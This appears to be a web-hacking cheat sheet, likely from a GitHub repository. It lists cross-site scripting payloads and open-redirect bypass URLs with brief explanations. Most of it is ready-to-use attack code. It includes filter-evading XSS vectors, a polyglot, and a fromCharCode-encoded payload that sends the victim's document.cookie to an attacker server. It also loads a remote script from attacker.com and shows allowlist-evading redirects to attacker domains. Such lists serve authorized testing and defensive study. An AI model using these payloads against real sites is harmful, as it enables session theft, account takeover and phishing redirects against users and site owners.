 
## XSS

```js
<img onload=alert('The image has been loaded!') src="example.png">
```


```js
\"-alert(1)}// 
```

`This payload loads JavaScript code within an iframe. It’s useful when <script> tags are banned by the XSS filter:`
```js
<iframe src=javascript:alert(1)>
```



`This payload is useful when your input string can’t contain the term script. It inserts an HTML element that will run JavaScript automatically after it’s loaded:`
```js
<body onload=alert(1)>
```




 `It then injects an <img>tag with an invalid source URL. Once the tag fails to load, it will run the JavaScript specified in the onerror attribute:`
```js
<img src=x onerror=prompt(1);>
```




`<!- is the start of an HTML comment. This payload will comment out the rest of the line in the HTML document to prevent syntax errors:`
```js
<script>alert(1)<!–
```




`This payload inserts a link that will cause JavaScript to execute after a user hovers over the link with their cursor:`
```js
<a onmouseover"alert(1)">test</a>
```



`To run external script on attacker's server:`
```js
<script src=//attacker.com/test.js>
```



You can use these to embed JavaScript code into URLs. Example, `https://example.com/upload_profile_pic?url=IMAGE_URL` like this:
```js
<img src="payload"/>
```


`Payloads:`
```js
javascript:alert('You are hacked!!')
```

```js
data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTIGJ5IFZpY2tpZScpPC9zY3JpcHQ+"
```



`xss polyglot payload:`
```js
javascript:"/*\"/*`/*' /*</template>
</textarea></noembed></noscript></title>
</style></script>-->&lt;svg onload=/*<html/*/onmouseover=alert()//>
```
`This is a type of XSS payload that executes in multiple contexts. For example, it will executeCross-Site Scripting regardless of whether it is inserted into an <img> tag, a <script> tag, or a generic <p> tag and can bypass some XSS filters.`



`If the application filters special HTML characters, like single and double quotes, you can’t write any strings into your XSS payload directly. But you could try using the JavaScript fromCharCode() function, which maps numeric codes to the corresponding ASCII characters, to create the string you need.` 

`For example, this piece of code is equivalent to the string "http://attacker_server_ip/?c=":`

```js
String.fromCharCode(104, 116, 116, 112, 58, 47, 47, 97, 116, 116, 97, 99, 107,101, 114, 95, 115, 101, 114, 118, 101, 114, 95, 105, 112, 47, 63, 99, 61)
```



This means you can construct an XSS payload without quotes, like this:

```js
<scrIPT>location=String.fromCharCode(104, 116, 116, 112, 58, 47, 47, 97, 116, 116, 97, 99, 107, 101, 114, 95, 115, 101, 114, 118,101, 114, 95, 105, 112, 47, 63, 99, 61)+document.cookie;</scrIPT>
```

The String.fromCharCode() function returns a string, given an input list of ASCII character codes. 

Use ascii character mapper tool for this: `https://github.com/ashique-thaha/ascii-character-mapper.git` 

## open redirects


`We can bypass the protection by creating a subdomain or directory with the target’s domain name:`
```
https://example.com/login?redir=http://example.com.attacker.com
https://example.com/login?redir=http://attacker.com/example.com
```



`To prevent attacks like these from succeeding, the validator might accept only URLs that both start and end with a domain listed on the allowlist. it’s possible to construct a URL that satisfies both of these rules. Take a look at this one:`
```
https://example.com/login?redir=https://example.com.attacker.com/example.com
```



`Or you could use the at symbol (@) to make the first example.com the username portion of the URL:`
```
https://example.com/login?redir=https://example.com@attacker.com/example.com
```



`use the data: scheme to embed small files in a URL. They are constructed in this format:`
```
data:MEDIA_TYPE[;base64],DATA
```


`For example, you can send a plaintext message with the data scheme like this:`
```
data:text/plain,hello!
```


`The optional base64 specification allows  to send base64-encoded messages. For example, this is the base64-encoded version of the preceding message:`
```
data:text/plain;base64,aGVsbG8h
```



`We can use the data: scheme to construct a base64-encoded redirect URL that evades the validator. For example, this URL will redirect to example.com:`
```
data:text/html;base64,PHNjcmlwdD5sb2NhdGlvbj0iaHR0cHM6Ly9leGFtcGxlLmNvbSI8L3NjcmlwdD4=
```


The data encoded in this URL, `PHNjcmlwdD5sb2NhdGlvbj0iaHR0cHM6Ly9leGFtcGxlLmNvbSI8L3NjcmlwdD4=`, is the base64-encoded version of this script:
```js
<script>location="https://example.com"</script>
```


`You can insert this data URL into the redirection parameter to bypass blocklists:`
```
https://example.com/login?redir=data:text/html;base64,PHNjcmlwdD5sb2NhdGlvbj0iaHR0cHM6Ly9leGFtcGxlLmNvbSI8L3NjcmlwdD4=
```